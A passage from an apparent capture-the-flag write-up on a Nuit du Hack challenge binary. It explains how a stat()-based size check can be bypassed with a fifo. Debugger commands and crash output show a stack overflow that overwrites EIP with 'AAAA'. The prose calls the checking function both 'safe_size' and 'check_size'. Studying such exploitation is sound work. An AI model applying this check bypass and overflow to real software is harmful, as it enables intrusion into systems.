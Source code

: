 From the `main` function, `safe_size` is called. It starts by checking the size
of the file passed as argument. If it is bigger than 0x100 bytes, it exits.
Otherwise it continues by calling `save_in_buffer` with the address of the
buffer. `save_in_buffer` reads the file and puts its content in the provided
buffer through the `strncat`.

# Vulnerability

The function `check_size` calls the [`stat`][stat] function to get the size of
the provided file. There are at least two possibilities to trick `stat` into
believing that the file is small:

* race condition: create a small file and increase its size after `stat` is called
* use a fifo

The latter is easier to setup and more reliable. I usually tend to work with
fifo when I debug binaries because I find that this is easier to interact with
binaries that way:
{% highlight shell-session%}
$ gdb -q pwn
Reading symbols from pwn...(no debugging symbols found)...done.
gdb-peda$ r fifo
Starting program: pwn fifo
{% endhighlight %}

From another terminal:
{% highlight shell-sesion %}
$ python -c "print('A'*4200)" > fifo
{% endhighlight %}

Back in the debugger:
{% highlight shell-session %}
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x25 ('%')
EBX: 0x80481b0 (<_init>:  push   ebx)
ECX: 0x80ef4d4 --> 0x0 
EDX: 0x25 ('%')
ESI: 0x0 
EDI: 0x80ee00c --> 0x8067e60 (<__stpcpy_sse2>:  mov    edx,DWORD PTR [esp+0x4])
EBP: 0x41414141 ('AAAA')
ESP: 0xffe5af00 ('A' <repeats 72 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffe5af00 ('A' <repeats 72 times>)
0004| 0xffe5af04 ('A' <repeats 68 times>)
0008| 0xffe5af08 ('A' <repeats 64 times>)
0012| 0xffe5af0c ('A' <repeats 60 times>)
0016| 0xffe5af10 ('A' <repeats 56 times>)
0020| 0xffe5af14 ('A' <repeats 52 times>)
0024| 0xffe5af18 ('A' <repeats 48 times>)
0028| 0xffe5af1c ('A' <repeats 44 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
{% endhighlight %}


[ndh]: https://quals.nuitduhack.com/
[stat]: http://man7.org/linux/man-pages/man2/stat.2.html
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[syscall]: http://man7.org/linux/man-pages/man2/syscall.2.html
[execve]: http://man7.org/linux/man-pages/man2/execve.2.html